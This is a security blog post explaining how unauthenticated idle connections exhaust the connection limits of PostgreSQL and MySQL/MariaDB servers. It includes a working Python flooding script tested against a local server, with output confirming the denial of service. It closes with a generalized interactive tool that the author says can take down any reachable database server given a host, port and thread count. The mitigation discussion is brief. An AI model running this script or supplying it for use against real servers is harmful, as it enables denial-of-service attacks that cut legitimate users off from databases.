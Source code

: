 ```yaml
---
layout: post
title: "How to DoS MySQL/MariaDB and PostgresSQL Servers With Fewer Than 55kb of Data"
author: "Joshua Rogers"
categories: security
---
```


At the heart of any Denial of Service (DoS) attack, there are two variables: a resource, and the limit of of which that resource can grow to: network bandwidth, processing power, or connection limits. A DoS attack is simply: the denial of a service to a legitimate user either deliberately or accidentally. Likewise, in any successful DoS attack, an attacker generally needs to make use of at least the same resource for which they are attacking. If you're performing a DoS attack on a server with a 10GbE uplink, an attacker will need attack with 10Gb/s of resources, to exhaust the resources of the uplink.

That's why I was surprised to discover that it's incredibly easy to DoS MySQL/MariaDB and PostgresSQL servers. In this case, the resource that can be exhausted if the number of connections to the database itself.

---

I was recently reading the documentation for PostgresSQL. Specifically, the _max_connections_ attribute: _max_connections (integer)_: _Determines the maximum number of concurrent connections to the database server. The default is typically 100 connections, but might be less if your kernel settings will not support it (as determined during initdb). This parameter can only be set at server start._

It made me wonder: is it possible to open 100 connections to a PostgresSQL database and let it idle, denying service to legitimate connections of the database? As it turns out, yes, and __even without credentials to access any database__: as long as the SQL server is reachable and it can receive our TCP packets, we can easily deny access to it for legitamte users.

---

I made a quick script to exhaust the default amount of connections of a local PostgresSQL server:

```python
import socket
import struct
import concurrent.futures

host = '127.0.0.1'
port = 5432

def postgres_connect(host, port):
    while True:
        try:
            with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as sock:
                sock.connect((host, port))

                startup_message = b'\x00\x03\x00\x00user\x001\x00database\x001\x00\x00'
                message_length = len(startup_message) + 4
                message_length_bytes = struct.pack('!I', message_length)
                sock.sendall(message_length_bytes + startup_message)

                while True:
                    sock.recv(1)

        except Exception as e:
            print(e)

if __name__ == "__main__":
    with concurrent.futures.ThreadPoolExecutor(max_workers=100) as executor:
        futures = [executor.submit(postgres_connect, host, port) for _ in range(100)]

        for future in concurrent.futures.as_completed(futures):
            pass
```

I then tested:
```bash
# python3 py.py  &
[1] 1611
# psql -U user -ww -h 127.0.0.1 -d database
psql: error: connection to server at "127.0.0.1", port 5432 failed: FATAL:  sorry, too many clients already
connection to server at "127.0.0.1", port 5432 failed: FATAL:  sorry, too many clients already
```

So despite not having any authentication data for the server, we could still DoS it.

---

How much data does this consume in total?
```
# tcpdump -i any -s 0 -w captured_traffic.pcap 'port 5432'
tcpdump: listening on any, link-type LINUX_SLL (Linux cooked), capture size 262144 bytes
^C700 packets captured
1400 packets received by filter
0 packets dropped by kernel
# tshark -r captured_traffic.pcap -Y "tcp.port == 5432" -T fields -e frame.len | awk '{ sum += $1 } END { print "Total data transferred:", sum / 1024, "KB" }'
Total data transferred: 53.0273 KB
```


So with just 53KB of data, we can totally exhaust PostgresSQL's connection limit. This isn't a rate of data exchange either, as the connection only needs to be left open: data does not need to be sent or received.

---

I ended up testing MySQL/MariaDB, too, and as it turns, we can DoS those servers quite easily as well. A [bug report from 2006](https://bugs.mysql.com/bug.php?id=16227) outlines the same issue, but it remains "unfixed". But is it really a bug? That's an option question.

---

In some cases, there can be a legitimate reason to have an SQL server accessible either via the internet or within some private network which may contain illegitimate users. Data in a database doesn't always have to be private, and may be publicly accessible. So how can we stop this attack? Well it's seemingly quite difficult.

We could raise the _max_connections_ limit, but then an attacker can just open more connections. We could use stateful firewalling like Linux's iptables to rate-limit connections, but then an attacker could perform a spoofed syn-flood from a single server [which could overflow the conntrack table](https://blog.cloudflare.com/conntrack-tales-one-thousand-and-one-flows/). Some middleware like pgbouncer or pgpool could also be effective, but then who knows whether we would just exhaust the [connection limit for those softwares](https://www.pgbouncer.org/config.html#max_client_conn).

One might be able to hack away at the source of MySQL/MariaDB or PostgresSQL and not count unauthenticated requests in the _max_connections_ count, but then we might just be able to exhaust the open file descriptor limits. On my system, MariaDB has both a soft and hard limits of 32768 ([which is configurable](https://dev.mysql.com/doc/refman/8.0/en/mysqld-safe.html#option_mysqld_safe_open-files-limit)). :
```
# sudo systemctl show mariadb | grep LimitNOFILE
LimitNOFILE=32768
LimitNOFILESoft=32768
```
On my system with PostgresSQL, the soft and hard limits are 1024 and 4096 respectively via ulimit. However in reality, the limit is actually 1000 by default, as [the postgres daemon has has an option](https://www.postgresql.org/docs/current/runtime-config-resource.html#GUC-MAX-FILES-PER-PROCESS) to ensure the soft limit won't be surpassed:
```
# cat /proc/$(ps ax | grep '/[p]ostgres' | awk '{print $1}')/limits | grep 'Max open files'
Max open files            1024                 4096                 files     
```

All of these limits can easily be exhausted.

I don't have much of a solution to this problem other than monitoring and eventually DROPing any addresses which are making higher than expected.


---

I also made a short script which can take down any reachable MySQL/MariaDB and PostgresSQL server:

```python
import socket
import struct
import concurrent.futures

def postgres_connect(host, port):
    while True:
        try:
            with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as sock:
                sock.connect((host, port))

                startup_message = b'\x00\x03\x00\x00user\x001\x00database\x001\x00\x00'
                message_length = len(startup_message) + 4
                message_length_bytes = struct.pack('!I', message_length)
                sock.sendall(message_length_bytes + startup_message)

                while True:
                    sock.recv(1)

        except Exception as e:
            print(e)

def mysql_connect(host, port):
    while True:
        try:
            with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as sock:
                sock.connect((host, port))
                while True:
                    sock.recv(1)

        except Exception as e:
            print(e)

if __name__ == "__main__":
    host = input("Enter the server host: ")
    port = int(input("Enter the server port: "))
    num_threads = int(input("Enter the number of threads: "))
    function_choice = input("Enter 'postgres' or 'mysql' to select the function to run: ")

    with concurrent.futures.ThreadPoolExecutor(max_workers=num_threads) as executor:
        if function_choice == 'postgres':
            futures = [executor.submit(postgres_connect, host, port) for _ in range(num_threads)]
        elif function_choice == 'mysql':
            futures = [executor.submit(mysql_connect, host, port) for _ in range(num_threads)]
        else:
            print("Invalid function choice. Please enter 'postgres' or 'mysql'.")

        # Wait for all threads to finish
        for future in concurrent.futures.as_completed(futures):
            pass
```

